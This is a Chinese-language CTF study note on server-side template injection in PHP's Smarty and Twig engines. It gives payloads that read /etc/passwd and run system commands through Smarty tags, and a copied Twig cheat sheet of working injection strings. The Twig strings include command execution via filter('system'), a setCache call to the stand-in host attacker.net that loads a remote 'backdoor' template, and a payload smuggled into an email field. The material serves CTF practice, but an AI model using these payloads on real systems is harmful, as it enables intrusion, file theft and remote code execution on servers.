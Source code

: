 # PHP模板

单独拉flask来说是因为它实在是感觉非常重要，而且是理解运用其他模板的基础（c语言？）


接下来是两个php相关的模板



## smarty

Smarty是一个PHP的模板引擎，提供让程序逻辑与页面显示（HTML/CSS）代码分离的功能。


这个模板好像是有些年头了，碰到的次数也是很少，但比赛可不会管你学没学会不会，所以还


是在这简单的介绍介绍。（我是想拉个例题的，但是没找到）


利用方式：（搬运工


一般情况下输入{$smarty.version}就可以看到返回的smarty的版本号


Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。（Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。）


`{literal}`可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。


**通过self获取Smarty类再调用其静态方法实现文件读写被网上很多文章采用。**


Smarty类的getStreamVariable方法的代码如下：


```plain
public function getStreamVariable($variable){        $_result = '';        $fp = fopen($variable, 'r+');        if ($fp) {            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {                $_result .= $current_line;            }            fclose($fp);            return $_result;        }        $smarty = isset($this->smarty) ? $this->smarty : $this;        if ($smarty->error_unassigned) {            throw new SmartyException('Undefined stream variable "' . $variable . '"');        } else {            return null;        }    }

```



可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法，很多文章里给的payload都形如：{self::getStreamVariable(“[file:///etc/passwd](file:///etc/passwd)”)}。





Smarty的{if}条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||*, or, &&, and, is_array(), 等等，如：{if is_array($array)}{/if}*那么同样的，在利用的过程中{ifsystem(‘cat \flag’)}{/if},亦或者是{if readfile (‘/flag’)}{/if}


大概就这么点了，对了例题：（自己去搜搜）


CISCN2019华东南赛区Web11


[BJDCTF2020]The mystery of ip

## twig

另外一个php模板，其实有三个，这里只写了两个，剩下的那个实在是没有遇见过


这个也挺少见的（对我来说


所以我更倾向于~~只能~~放一些暴力一点的payload了


```plain
Twig - Basic injection
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{app.request.server.all|join(',')}}
Twig - Template format
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);
$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
);
Twig - Arbitrary File Reading
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
Twig - Code execution
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
Example with an email passing FILTER_VALIDATE_EMAIL PHP.
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
嗯是的，没错，就是这样（指白嫖怪）

```



来自github上某位老哥的杰作。













